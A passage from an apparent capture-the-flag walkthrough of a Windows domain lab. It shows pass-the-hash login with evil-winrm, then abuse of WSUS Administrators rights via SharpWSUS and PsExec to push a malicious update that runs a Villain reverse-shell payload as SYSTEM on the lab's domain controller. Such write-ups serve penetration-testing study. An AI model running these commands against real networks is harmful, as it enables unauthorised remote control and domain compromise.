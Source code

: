 ## WSUS Abuse

Looking back at our BloodHound window, it appears that _sflowers_ is a member of the `Remote Management Users` group and the `WSUS Administrators` group.

![SFlowers membership](bloodhound2.png)

Having membership in the `Remote Management Users` group means we can easily establish a shell as `sflowers` with [Evil-WinRM](https://github.com/Hackplayers/evil-winrm) using the hash we obtained with Rubeus. Once we do that the user flag can be found at `%USERPROFILE%\Desktop\user.txt`

```bash
# Back to the attacking machine
evil-winrm -i "$rhost" -u "sflowers" -H "$hash"
```
```powershell
# Evil-WinRM
$Desktop = "$env:UserProfile\Desktop"
Get-ChildItem "$Desktop"
Get-Content "$Desktop\user.txt"
```

I'm assuming our membership to the WSUS Administrators group will let us install WSUS updates on the machine. The [PsExec](https://learn.microsoft.com/en-us/sysinternals/downloads/psexec) utility along with a tool called [SharpWSUS](https://github.com/nettitude/SharpWSUS/) can aid us in exploiting WSUS and gaining administrative privileges. We were actually able to find the suspected PsExec executable already at `C:\Users\sflowers\Desktop\PsExec64.exe`{:.filepath}. We confirm that this is the legitimate executable by comparing its checksum with the checksum of Microsoft's `PsExec64.exe` within the [PsTools](https://download.sysinternals.com/files/PSTools.zip) package.

Let's upload [this](https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpBinaries/Invoke-SharpWSUS.ps1) powershell wrapper for SharpWSUS, generate a Villain payload, and run the `Invoke-SharpWSUS` function with the appropriate arguments to create a new update.

First let's create a new Villain payload to execute within our malicious WSUS update.

```bash
# Villain
generate os=windows lhost=tun0 encode
```

Then we create a new update that will use the `PsExec64.exe` utility to execute our payload.

```powershell
$VillainPayload = "" # Add villain payload here
Invoke-SharpWSUS create /payload:"C:\Users\sflowers\Desktop\PsExec64.exe" /args:"-accepteula -s -d $VillainPayload"
```

The output should display an update ID that we can use with the `approve` option to approve the update for `dc.outdated.htb`.

```powershell
$UpdateId = "" # Add update id here
Invoke-SharpWSUS approve /updateid:"$UpdateId" /computername:"dc.outdated.htb" /groupname:"3v1LGr0Up"
```

Then after a few minutes we should have a new backdoor session on our Villain server. We then connect to the session using the `shell` command and read the flag at `C:\Users\Administrator\Desktop\root.txt`{:.filepath}.
